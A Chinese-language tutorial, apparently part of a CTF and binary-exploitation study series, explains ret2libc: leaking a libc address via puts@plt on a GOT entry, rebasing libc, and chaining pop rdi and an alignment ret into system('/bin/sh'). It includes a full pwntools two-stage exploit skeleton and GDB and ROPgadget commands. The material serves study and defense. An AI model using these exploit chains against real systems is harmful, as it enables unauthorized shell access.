

# 二进制漏洞与利用基础（5）· ret2libc

> [!abstract] TL;DR
> - ret2libc 就是把上一篇 ret2text 的思路搬到 libc 上：既然二进制自身既没有后门、也没导入 `system`，那就复用进程地址空间里那份庞大、合法、可执行的 libc，直接"返回"到 libc 的 `system` 并让它执行 `/bin/sh`——但它凭空多出一个 ret2text 不存在的麻烦：**libc 在 ASLR 下每次加载到哪都是随机的，构造 payload 时你根本不知道 `system` 的地址**。
> - 于是 ret2libc 的真正主线是"先泄露、再重定位、最后调用"这条闭环：用二进制里地址固定的 PLT 桩（如 `puts@plt`）去打印某个已解析 GOT 表项（如 `puts@got`）里存着的 libc 真实地址，`泄露值 − 该符号在 libc 文件内的偏移 = libc 基址`，此后 libc 里任何东西（`system`、`"/bin/sh"` 字符串、`one_gadget`）都是"基址 + 各自偏移"。
> - ASLR 以页（4KB=2^12）为粒度随机化，所以任何地址的**低 12 位（末 3 个十六进制位）恒等于它在文件内偏移的低 12 位**——这既是 `libc-database`/`LibcSearcher` 靠一次泄露就能反查出远程 libc 版本的原理，也是你判断"泄露对不对"的秒验手段。
> - 构造 `system("/bin/sh")` 的姿势 32 位和 64 位完全不同：32 位靠伪造调用帧，把参数摆在栈上（`[system][返回地址][binsh]`）；64 位参数走寄存器，必须借一条 `pop rdi; ret` gadget 把 `/bin/sh` 地址装进 `rdi`（SysV AMD64 的第一个整型参数寄存器）。
> - 64 位头号翻车点是**栈对齐**：glibc 的 `do_system` 内部用了 `movaps` 这类要求 16 字节对齐的 SSE 指令，ROP 链常常让 `rsp` 差一个 8 字节，结果崩在 libc 内部而不是你的链上；标准修法是在 `system` 前多垫一条 `ret` 把对齐掰回来。
> - ASLR 既是 ret2libc 的天敌也是它存在的理由；Full RELRO 挡不住"读 GOT 泄露"（GOT 变只读但依然可读），但 CET 影子栈克制伪造调用帧、seccomp 直接封杀 `execve` 让 `system` 弹不出 shell——现代加固下 ret2libc 几乎总是多阶段利用链里"最后一公里"的那一段。

## 概述与定位

上一篇把"代码复用攻击"这条脉络的地基打好了：NX 关掉了"往内存注入新代码"这扇门，但完全没有过问"控制流被劫持后可以跳到进程里任何已经合法存在的可执行代码"。ret2text 和 ret2syscall 把这份自由用在了**信息需求最小**的子情形上——它们只需要知道目标二进制自身的地址（后门函数、`.plt` 桩、静态链接进来的 gadget），而这些地址在没开 PIE 的二进制里是编译期就定死、运行期永不改变的常量。换句话说，上一篇有一个从未被打破的隐藏前提：**构造 payload 时，所有要跳的目标地址都已知且固定。**

本篇要处理的，正是这个前提第一次不成立的场景。现实里有两类非常普遍的情况会把攻击者从"二进制自身"逼进"libc"：

- **想用的"武器函数"只在 libc 里。** 二进制自身既没有作者留的后门，`.plt`/`.got` 里也没导入 `system`/`execve`——但只要它链接了 glibc，`system`、`execve`、`open`/`read`/`write` 这些函数就一定在 libc 的代码段里躺着，且完全可执行。ret2text 够不着它们，只是因为它们不在二进制自己的地址空间那一小块里。
- **哪怕能调 `system`，`"/bin/sh"` 字符串二进制里也没有。** 这是"半个 ret2libc"：函数在手，参数缺料。而 libc 的 `.rodata` 里天生就带着一份 `"/bin/sh\x00"`（glibc 内部实现 `system` 时自己要用），于是即便函数调用这一半走 ret2text，喂给它的字符串这一半也得从 libc 取地址。

无论哪种，都归结为同一件核心新工作：**在运行时拿到 libc 的加载基址**。这就是 ret2libc 区别于 ret2text 的全部要害——机制上它俩是同一套"伪造调用 / 返回复用"，ret2libc 只是在前面多接了一段"想办法知道 libc 在哪"。理解了这一点，本篇后面所有内容都只是这句话的展开。



需要把本篇的边界钉死，避免与相邻章节重复：手写 shellcode 字节是第 3 篇；只靠二进制自身地址、不碰 libc 的复用是第 4 篇；把 gadget 拼成可循环、可分支、图灵完备的程序是第 6、7 篇；当 `rdi`/`rsi`/`rdx` 没有现成 gadget、要靠 `ret2csu` 这类通用件凑参数是第 7 篇；系统化的 ASLR/PIE 绕过（尤其是连 PIE 也开、连二进制基址都得先泄露，以及栈/堆/mmap 各种泄露源的挑选）是第 15 篇；不泄露也能调 libc 的 GOT 劫持与 `ret2dlresolve` 是第 16 篇；libc 里那发"一击入魂"的 `one_gadget` 约束求解是第 18 篇；libc 里的 `IO_FILE`/FSOP 是第 17 篇。**本篇只聚焦最经典、最本质的那一环：目标函数在 libc、因而需要 libc 基址，如何走完"泄露 → 重定位 → 回到 `system("/bin/sh")`"这条闭环。**

从历史看，return-to-libc 其实是整个代码复用家族里出现得最早的一支。1997 年 Solar Designer 在 Bugtraq 上给出它，本意就是绕过当时刚出现的"非可执行栈"补丁：不注入代码，直接把返回地址指向 libc 里已经存在的 `system()`。那个年代还没有 ASLR，libc 每次都加载在固定地址，所以**原始的 ret2libc 根本不需要泄露这一步**。真正让 ret2libc 变成今天这套"必须先泄露"形态的，是 2001 年前后 PaX 引入、2005 年前后进入 Linux 主线内核的 ASLR。也正是在与 ASLR 缠斗的过程中，Nergal 在 Phrack 58（2001）的《The advanced return-into-lib(c) exploits: PaX case study》里系统化了"栈帧伪造 / esp lifting"这套把多个 libc 调用串起来的技巧，直接启发了六年后 Shacham 在 CCS 2007 上把它推广成图灵完备的 ROP（第 6 篇）。可以说 ret2libc 正处在"最朴素的单次代码复用"与"完整 ROP 编程"之间的关键台阶上。

## 原理与机制

### 为什么必须多一步：ASLR 把 libc "藏"起来了

ASLR（Address Space Layout Randomization）随机化的是进程里那些**动态决定位置**的区域——尤其是 `mmap` 基址，libc、ld.so、线程栈、匿名映射都从这里长出来，因此每次运行 libc 落在哪个地址都不一样。对攻击者来说，这直接摧毁了 ret2text 依赖的那个前提：`system` 在 libc 里的偏移是固定的，但 `libc 基址 + 偏移` 这个真实地址在你写 exploit 的时候是未知随机数。

但这里有一个至关重要、也是 ret2libc 得以成立的**不对称性**：在最经典的场景里，目标二进制自身没开 PIE，于是它的 `.text`、`.plt`、`.got` 依然在编译期定死的固定地址上，只有 libc 被随机化。这意味着攻击者手里始终握着一块"地基"——那些地址固定的 PLT 桩。ret2libc 的全部巧思，就是**站在这块固定地基上，撬动那块随机的 libc**：先用固定地址的 PLT 桩发起一次"泄露"，把某个 libc 真实地址读出来，随机性一旦被观测到就坍缩成了已知量。（如果连二进制也开了 PIE，连这块地基都得先泄露，那是第 15 篇的话题，本篇默认 no-PIE。）

### 泄露原语：让程序自己把 libc 地址打印出来

GOT（全局偏移表）是理解泄露的钥匙。动态链接的程序调用 libc 函数要走 PLT/GOT 间接跳转：`call puts` 实际是 `call puts@plt`，PLT 桩再通过 `GOT[puts]` 这个表项间接跳到 `puts` 在 libc 里的真身。关键在于——**一旦某个函数被解析过，它对应的 GOT 表项里存的就是那个函数在 libc 里的运行时真实地址**。所以"读一个已解析的 GOT 表项"，等价于"读到一个 libc 真实地址"。

于是最经典的泄露原语呼之欲出：伪造一次对 `puts@plt` 的调用，让它的参数指向 `puts@got`（或任何一个已解析函数的 GOT 表项）。`puts` 会把那个地址处的字节当字符串打印出来——打印出来的，正是 `puts` 自己在本次运行中的真实地址。攻击者在另一端收下这几个字节，一次泄露完成。

这个看似简单的原语藏着几个必须讲透的坑：

- **惰性绑定（lazy binding）：泄露前该函数得先被调用过。** 默认的 Partial RELRO + lazy binding 下，函数第一次被调用前，它的 GOT 表项存的还是 PLT 里那段"去找动态链接器解析"的跳板地址，而不是 libc 真身。如果你泄露的是一个程序至今从没调用过的函数的 GOT，读到的是解析器桩地址，算出来的"libc 基址"完全是错的。所以要挑一个**此刻已经被调用过**的函数——`puts`/`printf` 通常在程序打印任何东西时就被解析了，是稳妥之选。若目标是 Full RELRO + `BIND_NOW`，启动时就全部解析完，任何导入函数的 GOT 都可直接读，反而没这个顾虑。
- **`puts` 遇 `\0` 截断。** x86-64 用户态地址是 48 位规范地址，最高两字节恒为 `0x0000`，一个 libc 地址在内存里存成小端 `90 78 56 34 12 7f 00 00`。`puts` 从 GOT 处逐字节打印，读到那两个 `00` 就停，恰好吐出 6 个字节——正好是地址的低 6 字节，补两个 `\x00` 就还原出完整 8 字节地址，天衣无缝。但如果地址内部本身含 `0x00`（少见但会发生），`puts` 会提前截断导致泄露残缺；这时改用 `write(1, got, n)` 能精确打印 n 个原始字节、不怕内部空字节，代价是 `write` 要三个参数、64 位下要多凑 `rsi`/`rdx`（更麻烦，往往要借 `ret2csu`，第 7 篇）。`printf("%s")` 同样怕 `\0`。这是"泄露手段可靠性"与"构造复杂度"之间的经典权衡。
- **泄露完要能回来发第二发。** 泄露只是拿到了基址，真正的 `system("/bin/sh")` 得靠**第二个 payload**。所以泄露阶段那个伪造调用帧的"返回地址"槽位不能填垃圾，要精确填成 `main`（或包含溢出点的那个函数）的地址，让程序泄露完自己绕回来，再读一次我们的输入——这就是经典的"三段式 ret2libc"（栈溢出 → 泄露并返回 → 二次溢出打 `system`）。

### 重定位算术：从一个泄露值推出整个 libc

拿到一个泄露地址后，把随机性彻底消掉的算术只有两步：

```text
libc_base   = leaked_puts - offset_of_puts_in_libc      # 减去 puts 在 libc 文件里的静态偏移
system_addr = libc_base   + offset_of_system_in_libc
binsh_addr  = libc_base   + offset_of_"/bin/sh"_in_libc # libc 自带这份字符串
```

这里的 `offset_of_xxx_in_libc` 是**符号在 libc.so 这个文件内部的偏移**，用 `readelf -s`、`nm -D`、或 pwntools 的 `ELF('libc.so').symbols['system']` / `next(ELF('libc.so').search(b'/bin/sh'))` 读出来，是与运行无关的常量。整个 ret2libc 的"数学"就这么点：一次减法定基址，随后全是加法。

为什么"减去偏移就能得到基址"？因为 libc 是被整块 `mmap` 进来的，内部各符号相对文件开头的偏移在装载后原样保持，ASLR 只是给整块加了一个随机的基址位移。观测到其中任一符号的真实地址，减掉它的已知偏移，就把那个随机位移解出来了。

### 页对齐不变量：低 12 位泄露天机

ASLR 的随机化粒度是**页**，而一页是 4KB = 2^12 字节。随机化只发生在页边界上，也就是说地址的**低 12 位（十六进制末 3 位 nibble）永远不参与随机化，恒等于该符号在文件里偏移的低 12 位**：

```text
真实地址   = libc_base(必然页对齐, 低12位=0) + 文件内偏移
        => 真实地址 的低12位 === 文件内偏移 的低12位   （恒成立）
例：泄露到 puts 真实地址 ...f7a5c 6a0，末3位 = 6a0
   某版本 libc 中 puts 文件偏移末3位也必须 = 6a0，否则版本不对
```

这条不变量有两个立竿见影的用处。其一是**自检**：泄露到的地址末 3 位若和你手里那份 libc 里该符号偏移的末 3 位对不上，说明要么 libc 版本错了、要么泄露读错了表项，立刻能发现。其二是**版本识别**：远程题目常常不给 libc 文件，而只要你能泄露出一两个函数的地址，把"函数名 + 该地址末 3 位"喂给 `libc-database`/`LibcSearcher`，就能在成千上万个已收录的 libc 构建里匹配出唯一（或极少数）候选，从而反查出 `system`、`/bin/sh` 等所有其它偏移。多泄露一两个符号即可消歧。

```mermaid
sequenceDiagram
    participant ATK as 攻击者(远端)
    participant BIN as 目标二进制(.plt 固定地址)
    participant GOT as GOT 表(已解析)
    participant LIBC as libc(ASLR 随机基址)
    ATK->>BIN: 第1发 payload：溢出后返回到 puts@plt<br/>参数 = puts@got，伪造返回地址 = main
    BIN->>GOT: puts@plt 读 GOT[puts] 取真身地址
    GOT-->>BIN: 得到 puts 在 libc 的真实地址
    BIN->>LIBC: 跳入 libc 的 puts，打印该地址的字节
    LIBC-->>ATK: 收到 6 字节 → 补零还原 puts 真实地址
    Note over ATK: libc_base = 泄露值 − puts文件偏移<br/>system = base + system偏移<br/>binsh  = base + 字符串偏移
    BIN->>BIN: puts 返回到伪造的 main → 程序绕回溢出点
    ATK->>BIN: 第2发 payload：溢出后返回到 system(&quot;/bin/sh&quot;)
    BIN->>LIBC: 进入 libc 的 system，fork+execve 拉起 /bin/sh
    LIBC-->>ATK: 拿到交互式 shell
```

## 泄露与重定位：ret2libc 的关键步骤详解

前面把"为什么要泄露、怎么泄露、怎么算基址"讲清楚了，这一节把"算出地址之后，究竟怎么把 `system("/bin/sh")` 这一发拼出来"按位宽拆开讲透——因为 32 位和 64 位的参数传递机制根本不同，构造姿势也就分成两条截然不同的路。

### 32 位 ret2libc：伪造调用帧，参数摆在栈上

i386 的 cdecl 约定把"参数在哪"完全托付给栈布局：一次正常的 `call system` 会先把参数压栈、再把返回地址压栈，于是 `system` 序言开始执行时，栈顶是返回地址、往上第一格就是第一个参数。ret2libc 要做的就是把这个"被 call 过的样子"在栈上手工摆出来：

```text
              低地址（栈顶方向）
   +----------------------------------+
   |  'A' * offset                    |  溢出填充，直到盖住返回地址为止
   +----------------------------------+
   |  system 的真实地址                | <- 覆盖原返回地址；原函数 ret，eip = system
   +----------------------------------+ <- system 执行到它自己的 ret 时会读这里
   |  伪造的"返回地址"                  |    只弹一发 shell → 填 exit 地址即可
   +----------------------------------+ <- system 把这里当第 1 个参数读
   |  "/bin/sh" 的真实地址             |
   +----------------------------------+
              高地址
```

`system` 无法、也没有能力察觉自己是被"骗"来的——从它的视角看，这个栈布局和它真的被 `call` 过一模一样。这里那个"伪造的返回地址"槽位值得单独说：只弹一次 shell 的话填 `exit` 的地址（让 `system` 返回后干净退出，避免二次崩溃刷屏）；但如果这是三段式里的泄露阶段，这个槽位要填 `main`，好让程序绕回去读第二发。

真正体现 32 位 ret2libc 深度的，是**把多个 libc 调用串起来**这件事——比如"先 `puts` 泄露、再 `system` 打击"如果想在同一发里连做，或者要 `open`→`read`→`write` 连打。难点在于：`system(a)` 返回后，`esp` 停在参数 `a` 之上，此刻栈顶不再对齐到"下一个函数"，你没法简单地把下一个函数地址接在后面。Nergal 的解法是在两个调用之间插一段"胶水 gadget"来抬栈：

```text
调用 func1(arg1) 后接着调用 func2(arg2)：
   [ func1 ][ pop;ret ][ arg1 ][ func2 ][ ... ][ arg2 ]
              ^^^^^^^ 这条 pop;ret 当 func1 的"返回地址"
              func1 返回 → 落到 pop;ret → 弹掉 arg1 → ret 到 func2
   （func 有 2 个参数就用 pop;pop;ret，以此类推）
```

这就是所谓的 **esp lifting / 栈帧伪造**：用一条参数数目匹配的 `pop...; ret` 把上一个调用的参数从栈上清走，让 `esp` 精确落到下一个函数地址上。看懂了这个，你其实已经站在第 6 篇"完整 ROP"的门口了——ROP 不过是把这套"函数 + 清栈胶水"的思路细化到单条指令粒度而已。

### 64 位 ret2libc：参数进寄存器，必须借 gadget

x86-64 的 SysV AMD64 调用约定（详见 [[22.调用规约/06.SystemV_AMD64调用规约]]）把前 6 个整型/指针参数放进寄存器：`rdi, rsi, rdx, rcx, r8, r9`。所以 `system("/bin/sh")` 的本质是"让 `rdi` 等于 `/bin/sh` 字符串地址，然后进 `system`"。栈上摆参数在这里行不通了，必须借一条 `pop rdi; ret` 把值从栈弹进 `rdi`：

```text
   [ 'A'*offset ][ pop_rdi_ret ][ binsh_addr ][ system_addr ]
                    ^弹栈顶到 rdi   ^被弹进 rdi   ^rdi 已就绪，进 system
```

`pop rdi; ret` 这条 gadget 到处都有——no-PIE 二进制自己的 `__libc_csu_init` 尾部几乎总带一条，libc 里更是大把。找不到干净的 `pop rdi` 时，可退而用 `ret2csu`（第 7 篇）这套通用件去凑 `rdi/rsi/rdx`，那是专门解决"高级参数寄存器没有现成 gadget"的技术，本篇不展开。

### 64 位头号翻车点：movaps 与 16 字节栈对齐

这是 64 位 ret2libc 初学者最常见、最让人一头雾水的崩溃：链子看起来完全正确，却崩在 libc 内部（`do_system`、`__strlen_avx2` 之类）而不是自己的链上。根因是**栈对齐**：

SysV AMD64 ABI 规定，在执行 `call` 那一刻 `rsp` 必须 16 字节对齐（等价地，函数入口处 `rsp % 16 == 8`，因为 `call` 刚压入 8 字节返回地址）。glibc 的 `do_system` 内部用了 `movaps xmmN, [rsp+...]` 这类要求操作数 16 字节对齐的 SSE 指令，编译器正是**假定入口对齐成立**才这么生成的。可你用 ROP 是靠 `ret` 跳进 `system` 的，不是 `call`——ROP 链上每个地址占 8 字节，很容易让进入 `system` 时的 `rsp` 差一个 8，破坏了那个对齐假定，于是 `movaps` 在非 16 对齐的地址上取数触发 `#GP`（表现为 `SIGSEGV`），崩在 libc 深处。

修法极其简单：在 `system` 之前多垫一条**单独的 `ret` gadget**。它什么也不做，只是弹掉 8 字节再跳，恰好把 `rsp` 的对齐奇偶性掰回来：

```text
   [ 'A'*offset ][ pop_rdi_ret ][ binsh ][ ret_gadget ][ system ]
                                            ^^^^^^^^^^ 仅用于对齐，抬 rsp 8 字节
```

到底要不要垫、垫几个，取决于填充长度和整条链的总字节数，最可靠的办法是本地用 GDB 在进入 `system` 的断点处看 `p $rsp & 0xf`：等于 0 就对、等于 8 就得加一条 `ret`（或反之，视 glibc 版本的 `movaps` 具体位置而定）。记住这个现象比记住奇偶结论更重要——**一旦看到"崩在 libc 内部而不是自己链上"，第一反应就该是查栈对齐**。这个坑在早期（glibc 2.27 之前 `do_system` 用 `movaps` 的位置不同）不明显，2.27 之后几乎成了 64 位 ret2libc 的固定仪式。

### `"/bin/sh"` 从哪来：直接薅 libc 自己的字符串

上一篇讲 ret2text 时，因为刻意不想依赖 libc 地址，"/bin/sh" 要么用二进制自带的、要么靠 `read` 往 `.bss` 里"种"一份。而 ret2libc 完全没这个顾虑——你既然已经算出了 libc 基址，libc 的 `.rodata` 里那份天生自带的 `"/bin/sh\x00"` 就是现成的：`binsh = libc_base + next(libc.search(b'/bin/sh'))`。不需要可写缓冲区、不需要额外一次输入，一个偏移搞定。这个对比很能说明问题：**同样一份 `/bin/sh`，ret2text 因为回避 libc 地址而要费劲绕路，ret2libc 因为已经掌握了 libc 基址而信手拈来**——技术选择的差异，归根结底还是"你手里有没有 libc 基址"这一个变量在支配。

### `system` 之外：`one_gadget` 与 `execve` 的取舍

`system` 之所以是 ret2libc 的默认武器，是因为它**只要一个参数**：64 位下一条 `pop rdi` 加对齐 `ret` 就够，极其省事、极其可靠。但它不是唯一选择：

- **`one_gadget`（第 18 篇细讲）**：libc 里存在若干"一跳就 `execve("/bin/sh", ...)`"的魔法地址，直接返回过去就能起 shell，连 `pop rdi` 和 `/bin/sh` 地址都省了。代价是它们各带一组约束（比如要求某个寄存器为 `NULL`、`rsp` 某偏移处为 0 之类），约束满足才生效；满足不了就得回退到 `system` 或 ORW。它是 ret2libc 拿到基址之后"能不能一发入魂"的常用尝试。
- **直接调 libc 的 `execve`/`execveat`**：语义更干净（不 `fork`），但要凑齐 `rdi=binsh, rsi=0, rdx=0` 三个寄存器，64 位下往往要拖 `ret2csu`，比 `system` 麻烦。
- 值得一提 `system` 的运行时代价：它内部是 `fork` 出子进程再 `execve("/bin/sh -c", ...)`，依赖一个基本正常的栈和环境，前述对齐问题就出在这条路径上；而且它对 `SIGCHLD` 等有一定要求，个别沙箱环境里 `system` 会因 `fork` 被禁而失败，这也是转向 `execve`/ORW 的动机之一。

## 工具视角与实战

### checksec 画像：ret2libc 的典型指纹

```text
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

这份输出是 ret2libc 的"标准命题脸"：NX 开启（逼你走复用而非注入）、No PIE（给你一块固定地址的地基去发起泄露）、No canary（可以直接盖到返回地址）、RELRO 是 Partial 还是 Full 都不影响本篇（泄露只**读** GOT，不写）。系统层面 ASLR 默认是开的——这恰恰是本篇存在的理由，也是"为什么必须先泄露"的现场证据。反过来，如果你看到 PIE 也开了，那连发起泄露的地基都得先泄露，请先接第 15 篇。

### pwntools 三段式骨架（64 位）

```python
from pwn import *

elf = context.binary = ELF('./vuln')
libc = ELF('./libc.so.6')      # 已知 libc；未知时见下一小节 LibcSearcher
io = process(elf.path)

offset  = 0x48                                  # 由 cyclic 定位（原理见第2篇）
pop_rdi = ROP(elf).find_gadget(['pop rdi', 'ret']).address
ret      = ROP(elf).find_gadget(['ret']).address    # 对齐用的裸 ret

# ---- 第1发：泄露 puts 的真实地址，并返回 main 再来一轮 ----
payload = flat(
    b'A' * offset,
    pop_rdi, elf.got['puts'],   # rdi = puts@got
    elf.plt['puts'],            # 调 puts 打印 GOT[puts] 里的 libc 真身地址
    elf.symbols['main'],        # puts 返回后回到 main，等第二发
)
io.sendlineafter(b'> ', payload)

leak = u64(io.recvline().strip().ljust(8, b'\x00'))  # 6 字节补零成 8 字节
libc.address = leak - libc.symbols['puts']           # 一次减法定基址（重定位）
log.success(f'libc base = {libc.address:#x}')

# ---- 第2发：system("/bin/sh")，注意加一条 ret 对齐 ----
binsh  = next(libc.search(b'/bin/sh\x00'))
system = libc.symbols['system']
payload = flat(
    b'A' * offset,
    pop_rdi, binsh,
    ret,                        # 16 字节对齐，防 movaps 崩在 libc 内部
    system,
)
io.sendlineafter(b'> ', payload)
io.interactive()
```

这段骨架把前文所有原理落到了实处：`elf.plt['puts']`/`elf.got['puts']`/`elf.symbols['main']` 都是 no-PIE 二进制里的固定地址（地基），`libc.address = leak - libc.symbols['puts']` 就是那一次定基址的减法，`next(libc.search(b'/bin/sh'))` 直接薅 libc 自带字符串，中间那条孤零零的 `ret` 就是对齐补丁。删掉代码只读中文你也应当能复述出这四件事。

### libc 版本未知：LibcSearcher / libc-database

远程题不给 libc 时，靠前述"低 12 位不变量"反查：

```python
from LibcSearcher import LibcSearcher
# 先泄露到 puts 真实地址 leak_puts（可能还需再泄一个如 gets 消歧）
s = LibcSearcher('puts', leak_puts)          # 只喂符号名 + 泄露地址
libc_base = leak_puts - s.dump('puts')       # 用匹配到的 libc 反推基址
system    = libc_base + s.dump('system')
binsh     = libc_base + s.dump('str_bin_sh')
```

命令行侧 niklasb 的 `libc-database` 是同一原理：`./find puts 6a0`（末 3 位）列出候选构建，`./dump <id>` 给出全部偏移。核心记忆点始终是那句——**能匹配的前提是低 12 位天然不被随机化**。

### GDB 现场核对：三件事必看

```bash
# 1) 看 libc 究竟落在哪，验证泄露算出的 base 对不对
pwndbg> vmmap libc
# 2) 在进入 system 的断点处核对对齐（等于 0 才安全，否则补 ret）
pwndbg> b *system
pwndbg> p $rsp & 0xf
# 3) 找对齐用 ret / pop rdi
$ ROPgadget --binary ./vuln --only "pop|ret" | grep "rdi"
$ ROPgadget --binary ./vuln --only "ret"
```

远程打之前务必本地把这套跑通：`vmmap` 确认基址、`p $rsp & 0xf` 确认对齐、单步看 `rdi` 是否真的等于 `/bin/sh`。越到后面利用链越长，这种"先在本地预演、再对远程投递"的习惯价值越大。

## 安全性与正确使用

> [!caution] 合规边界
> 本篇涉及的所有技术仅用于自己搭建或获得明确授权的靶机、CTF 竞赛环境与安全研究场景下的攻防学习。文中示例均为通用教学模式，刻意不针对任何真实生产系统给出可直接套用的地址、libc 指纹或成品"打靶"脚本；泄露、重定位、`system("/bin/sh")` 这些步骤在这里只用于讲清"防护为何这样设计、边界在哪"。将这些手法用于未经授权的目标系统属于违法行为，也不得用于绕过任何商业软件的授权保护。任何时候都应在授权范围内、以防御与教育为出发点理解与验证其原理。

把各主流防护机制**针对 ret2libc 具体挡在哪一环**摆开，是判断一次利用能否成立、以及现代目标上它退化成什么角色的核心能力：

| 防护机制 | 拦截的环节 | 对 ret2libc 是否有效 |
|---|---|---|
| NX/DEP | 禁止在数据页取指执行注入代码 | 无效——ret2libc 全程不注入，只跳到 libc 已映射的可执行页 |
| ASLR | 让 libc 基址每次运行随机 | **有效且是核心天敌**——正是它逼出"必须先泄露"这一步；无任何泄露则 ret2libc 不可行 |
| PIE | 连二进制自身/PLT 桩地址也随机 | 叠加加固——连发起泄露的"地基"都要先泄露，需先接第 15 篇 |
| Full RELRO | 把 GOT 设为只读 | 对"读 GOT 泄露"基本无效（只读但仍可读）；但它封死了"改 GOT"这条另一路线（第 16 篇） |
| Stack Canary | 覆盖返回地址前先校验栈金丝雀 | 有效——覆盖返回地址必先破坏 canary，需先泄露/绕过 canary（第 14 篇） |
| CET 影子栈 | 硬件另存一份真实返回地址，`ret` 时比对 | 有效——伪造调用帧、`ret` 进 `system` 与影子栈记录不符，直接触发异常 |
| CFI（前向） | 校验间接调用/跳转目标合法性 | 部分——ret2libc 走的是 `ret`（后向边），前向 CFI 未必覆盖，后向要靠 CET 影子栈 |
| seccomp | 按号过滤具体系统调用 | 有效于 `execve`——封掉则 `system` 弹不出 shell，须转 ORW（第 19 篇） |

这张表里最容易被误解的一格是 Full RELRO。很多人以为"GOT 变只读"就挡住了 ret2libc——恰恰相反：**RELRO 让 GOT 不可写，但没让它不可读**，而 ret2libc 的泄露原语只是**读** GOT 表项里的地址，从头到尾不写 GOT。RELRO 真正封死的是第 16 篇那种"往 GOT 里写一个假地址来劫持"的路线；对本篇的"读一个真地址来泄露"毫无影响。区分"读"与"写"这两条对 GOT 的操作，是理解这两章边界的关键。

另一个要点是：真正意义上的 ASLR 才是 ret2libc 的分水岭。**没有 ASLR，ret2libc 退化回 1997 年 Solar Designer 的原始形态**——libc 地址固定、无需泄露、一发命中；有了 ASLR，它才变成本篇讲的"泄露 → 重定位 → 打击"三段式。也正因如此，在主流发行版默认开启 PIE、Full RELRO、Canary、并在容器/浏览器里普遍叠加 seccomp-bpf 的今天，纯粹一步到位的 ret2libc 已经罕见。但这绝不意味着它过时：几乎所有现代复杂利用链，在完成了"泄露地址、绕过 canary、必要时绕 PIE"这些前置步骤之后，**最后一步"手里有了 libc 基址，具体怎么触发代码执行"，在机制上就是本篇讲的这套**——伪造调用帧、`pop rdi`、对齐、`system("/bin/sh")`。理解本篇的价值不在于它能不能单枪匹马打穿一个加固目标，而在于它是后续所有更复杂技术共同的"最后一公里"，是把"一个泄露值"变成"一个 shell"的那段收尾工艺。

## 小结

ret2libc 是 ret2text 思路的自然延伸，也是它第一次撞上"目标地址不再固定"这堵墙：想用的 `system`/`execve` 或那份 `/bin/sh` 只在 libc 里，而 libc 在 ASLR 下每次落点随机。破解之道是那条贯穿全篇的闭环——**站在 no-PIE 二进制固定地址的地基上，用 `puts@plt(puts@got)` 之类原语泄露出一个 libc 真实地址，`泄露值 − 符号文件内偏移` 一次减法定出 libc 基址，此后 libc 里的 `system` 与 `/bin/sh` 都是"基址 + 偏移"，再回到 `system("/bin/sh")` 收尾。** 页对齐让地址低 12 位恒等于文件偏移低 12 位，既是泄露自检也是版本识别的支点；32 位靠伪造调用帧把参数摆栈上、64 位靠 `pop rdi` 把参数装寄存器并当心 `movaps` 对齐；`/bin/sh` 直接薅 libc 自带字符串。它上承第 4 篇"只需二进制自身地址"的最小信息需求，下启第 6 篇"当需要的不再是固定几步、而是任意计算能力"的完整 ROP，是代码复用阶梯上承前启后的关键一级。

## 相关阅读

- [[00.二进制漏洞与利用基础总览|系列总览]]
- [[04.返回导向：ret2text与ret2syscall]] —— 前置：ret2libc 复用的"伪造调用帧/返回复用"机制的来源，及"只需二进制自身地址"的对照
- [[06.ROP入门]] —— 下一步：把"函数 + 清栈胶水"细化到单条指令粒度的图灵完备编程
- [[07.ROP进阶：ret2csu与通用gadget]] —— 当 `rdi/rsi/rdx` 没有现成 gadget 时怎样通用凑参
- [[14.Canary泄露与绕过]] —— 有 canary 时，ret2libc 前必须先解决的一环
- [[15.ASLR与PIE绕过技术]] —— 泄露 libc 基址的系统化方法，以及连 PIE 也开时如何先泄露二进制基址
- [[16.GOT劫持与ret2dlresolve]] —— 对照：不泄露 libc 基址、改 GOT 或走 dl-resolve 的另一条路
- [[18.one_gadget与magic_gadget]] —— 拿到 libc 基址后"一发入魂"的替代打法
- [[19.ORW与读取flag]] —— `execve` 被 seccomp 封杀时的后续路线
- [[34.现代二进制防护机制/00.现代二进制防护机制总览]] —— NX/ASLR/RELRO/Canary/CET 的全景与彼此边界
- [[11.ELF文件详解/17.got节]] —— PLT/GOT 机制，理解"读 GOT 泄露"与惰性绑定的前提
- [[22.调用规约/06.SystemV_AMD64调用规约]] —— 64 位参数寄存器约定，理解为何要 `pop rdi`
- 延伸文献：Solar Designer, *Getting around non-executable stack (and fix)*, Bugtraq（1997）；Nergal, *The advanced return-into-lib(c) exploits: PaX case study*, Phrack 58:4（2001）；Hovav Shacham, *The Geometry of Innocent Flesh on the Bone*, ACM CCS 2007；glibc 源码 `sysdeps/posix/system.c` 中 `do_system` 与 `movaps` 对齐相关实现；Linux man-pages `system(3)`、`execve(2)`、`puts(3)`；pwntools 官方文档（ROP/ELF 模块）；niklasb `libc-database` 与 `LibcSearcher` 项目文档；ROP Emporium 练习靶场（"ret2libc" 关卡）

[[00.二进制漏洞与利用基础总览|⬆ 系列总览]] | [[04.返回导向：ret2text与ret2syscall|← 上一章]] | [[06.ROP入门|→ 下一章]]
